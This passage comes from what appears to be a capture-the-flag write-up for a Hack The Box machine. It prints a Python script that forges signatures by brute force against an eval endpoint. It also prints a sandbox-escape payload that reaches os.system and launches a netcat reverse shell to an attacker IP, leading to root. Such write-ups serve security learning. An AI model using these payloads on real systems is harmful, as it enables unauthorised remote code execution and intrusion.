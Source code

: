 ```python
random_numbers = generate_randoms(n)
unique_numbers = list(set(random_numbers))
print("[+] We got %d unique numbers" % len(unique_numbers))

# generate signing keys
print("[+] Generating signing keys from unique numbers")
keys = generate_keys(unique_numbers)

# Here goes nothing...
expr = sys.argv[2] # change this to a malicious expression
print("[+] Expression: %s" % expr)

for key in keys:
  json = {'expr': expr, "sig": sign(key, str.encode(expr)).decode()}
  headers = {'Content-Type': 'application/json'}
  r = requests.post('http://127.0.0.1:81/eval', json=json, headers=headers)

  if "Bad" not in r.text and "Error" not in r.text:
    print (r.text)
    exit()
```

During my experiment, I found that a sample size of 500 generates enough signing key collisions that will eventually create a valid signature to fool the server to evaluate my expression.


{% include image.html image_alt="55d50510.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/55d50510.png" %}


The next hurdle is to bypass `eval(expr, {'__builtins__':None})`. It can be challenging if you are not familiar with Python internals. ***Everything in Python is an object.*** As long as we have access to the object class, we can make use of Python's internal functions and attributes in the current scope to retrieve `__builtins__`, even if it's set to `None`.

```
# python3 exploit.py 500 "{}.__class__.__mro__[1].__subclasses__()[121].__init__.__globals__['__builtins__']['__import__']('os').system('rm -f /tmp/p; mknod /tmp/p p; /bin/bash </tmp/p | nc 10.10.15.127 1234 >/tmp/p')"
```

Here, I'm using the `warnings` module, to import the `os` module, in order to execute a reverse shell command through `os.system`.


{% include image.html image_alt="8011f698.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/8011f698.png" %}


From here on, it's trivial to [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) to a fully functioning shell and retrieve `root.txt`.


{% include image.html image_alt="7d946056.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/7d946056.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/183
[2]: https://www.hackthebox.eu/home/users/profile/2571
[3]: https://www.hackthebox.eu/home/users/profile/21927
[4]: https://www.hackthebox.eu/
